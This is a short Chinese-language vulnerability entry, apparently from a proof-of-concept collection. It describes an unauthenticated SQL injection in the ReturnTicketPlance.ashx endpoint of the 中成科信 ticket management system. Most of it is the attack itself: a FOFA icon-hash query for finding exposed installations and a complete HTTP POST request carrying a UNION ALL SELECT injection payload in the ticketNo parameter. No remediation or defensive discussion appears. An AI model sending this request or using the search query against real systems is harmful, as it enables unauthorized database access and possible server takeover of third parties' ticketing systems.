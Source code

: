 # 中成科信票务管理系统ReturnTicketPlance.ashx存在SQL注入

中成科信票务管理系统 ReturnTicketPlance.ashx 接口处存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## fofa

```yaml
icon_hash="1632964065" || icon_hash="-2142050529"
```

## poc

```javascript
POST /SystemManager/TicketSystem/ReturnTicketPlance.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

Method=GetCheckInDetail&ticketNo='%20UNION%20ALL%20SELECT%20NULL,CHAR(113)+CHAR(106)+CHAR(113)+CHAR(118)+CHAR(113)+CHAR(74)+CHAR(79)+CHAR(112)+CHAR(87)+CHAR(122)+CHAR(103)+CHAR(66)+CHAR(87)+CHAR(118)+CHAR(107)+CHAR(77)+CHAR(103)+CHAR(121)+CHAR(119)+CHAR(87)+CHAR(69)+CHAR(102)+CHAR(68)+CHAR(112)+CHAR(105)+CHAR(97)+CHAR(75)+CHAR(105)+CHAR(77)+CHAR(106)+CHAR(66)+CHAR(73)+CHAR(102)+CHAR(122)+CHAR(78)+CHAR(80)+CHAR(81)+CHAR(83)+CHAR(66)+CHAR(71)+CHAR(102)+CHAR(73)+CHAR(74)+CHAR(80)+CHAR(65)+CHAR(113)+CHAR(106)+CHAR(122)+CHAR(122)+CHAR(113),NULL,NULL--%20BEsy
```

